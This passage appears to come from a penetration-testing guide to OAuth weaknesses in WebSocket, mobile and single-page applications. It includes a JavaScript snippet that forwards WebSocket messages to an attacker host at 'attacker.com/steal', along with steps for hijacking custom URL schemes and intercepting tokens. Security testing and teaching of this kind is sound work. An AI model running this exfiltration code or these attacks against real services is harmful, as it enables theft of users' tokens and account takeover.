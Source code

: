 1. **Identification**:
   - Check if the application uses WebSockets for OAuth-related communication
   - Look for missing origin validation in WebSocket connections

2. **Exploitation**:
   ```javascript
   var ws = new WebSocket('wss://target-app.com/oauth-socket');
   ws.onmessage = function(event) {
     fetch('https://attacker.com/steal?data=' + encodeURIComponent(event.data));
   };
   ```

3. **Impact**: Stealing OAuth tokens or sensitive data transmitted over WebSockets

## OAuth for Mobile Applications

Mobile OAuth implementations have unique vulnerabilities that differ from web applications.

### Custom URL Scheme Hijacking

1. **Identification**:
   - Identify custom URL schemes used for OAuth callbacks
   - Check if multiple apps can register for the same URL scheme

2. **Exploitation**:
   1. Create a malicious app that registers for the same URL scheme
   2. When the OAuth flow redirects to the custom URL scheme, your app might receive the authorization code
   3. Use the intercepted code to gain unauthorized access

3. **Prevention**: Implement PKCE (Proof Key for Code Exchange) to mitigate this risk

### App-to-App Authentication Vulnerabilities

1. **Identification**:
   - Analyze how mobile apps handle OAuth authentication
   - Check for insecure data storage or transmission

2. **Exploitation**:
   - Intercept deep links containing OAuth tokens
   - Extract tokens from shared storage or clipboard
   - Perform man-in-the-middle attacks on non-pinned connections

3. **Impact**: Unauthorized access to user accounts and data

## OAuth for Single-Page Applications (SPAs)

SPAs have specific OAuth security challenges due to their client-side nature.

### Token Storage Vulnerabilities

1. **Identification**:
   - Check how tokens are stored (localStorage, sessionStorage, cookies)
   - Analyze token lifetime and refresh mechanisms
